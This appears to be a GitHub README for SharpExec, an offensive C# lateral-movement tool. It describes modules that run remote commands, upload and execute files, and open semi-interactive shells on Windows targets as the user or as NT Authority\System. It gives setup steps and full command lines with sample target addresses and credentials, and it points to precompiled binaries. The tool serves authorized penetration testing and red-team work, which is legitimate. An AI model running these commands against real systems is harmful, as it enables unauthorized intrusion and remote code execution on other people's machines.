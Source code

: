 # SharpExec

Description
============

SharpExec is an offensive security C# tool designed to aid with lateral movement. 

It currently includes:

-WMIExec - Semi-Interactive shell that runs as the user. Best described as a less mature version of Impacket's wmiexec.py tool.

-SMBExec - Semi-Interactive shell that runs as NT Authority\System.  Best described as a less mature version of Impacket's smbexec.py tool.

-PSExec (like functionality) - Gives the operator the ability to execute remote commands as NT Authority\System or upload a file and execute it with or without arguments as NT Authority\System.

-WMI - Gives the operator the ability to execute remote commands as the user or upload a file and execute it with or without arguments as the user.

In the Future I would like to add:

Lateral movement through DCOM
Pass the hash functionality

Contact at:
- Twitter: @anthemtotheego

Quick blog:

https://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/sharpexec.PNG?raw=true "SharpExec")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio and compile (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, again make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Note - All modules require Administrative rights on the target systems
Note - If the user who runs SharpExec has administrative rights to the target system, username/password/domain options on not required.

PSExec Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMI Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMIExec Module:

Starts semi-interactive shell on remote system as TargetUser

```SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While shell is running

<pre>:
put                  Upload file from local directory to current shell directory, put fullLocalPath\\File.txt File.txt
```get                  Download file from current shell directory to local directory, get File.txt fullLocalPath\\File.txt```
```help                 Show help menu```
```exit                 exit shell```

SMBExec Module:

Starts semi-interactive shell on remote system as NT Authority\System

```SharpExec.exe -m=smbexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While semi-interactive shell is running

```put  Upload file from local directory to current shell directory, put fullLocalPath\File.txt fullLocalPath\File.txt```
```get  Download file from current shell directory to local directory, get fullLocalPath\File.txt fullLocalPath\File.txt```
```help Show help menu```
```exit Exit shell```


